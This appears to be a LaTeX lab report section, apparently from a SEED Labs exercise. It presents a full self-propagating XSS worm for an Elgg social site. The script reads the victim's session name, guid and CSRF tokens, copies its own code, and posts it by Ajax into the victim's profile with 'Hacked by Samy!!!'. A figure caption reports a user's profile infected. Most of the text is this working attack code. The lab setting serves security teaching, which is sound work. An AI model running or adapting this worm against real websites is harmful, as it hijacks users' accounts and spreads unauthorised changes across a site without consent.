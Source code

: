 \section{Task 6: Writing a Self-Propagating XSS Worm}
%
\begin{lstlisting}[caption=XSS self-propagating script for modifying other profiles.,
    label={lst:xss_self_prop}]
<script id="worm" type="text/javascript">
    window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    // Construct self-propagating request
    // **** Self-propagating construction block starts
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    // **** End block

    //Construct the content of your url.
    var briefdescription = "&briefdescription=Hacked by Samy!!!";
    var description = `&description=${wormCode}`; // Self-propagating script is embeded to "About me" field
    var content = `${ts}${token}${guid}${userName}${description}${briefdescription}`; //FILL IN
    var samyGuid = "59"; //FILL IN
    var sendurl = "http://www.seed-server.com/action/profile/edit"; //FILL IN

    if(elgg.session.user.guid != samyGuid) // Line 1
        {
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
        }
    }
</script>
\end{lstlisting}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/XSS_self_prop_boby.png}
    \caption{The XSS worm infected Boby's profile.}
    \label{fig:xss_worm_boby}
\end{figure}

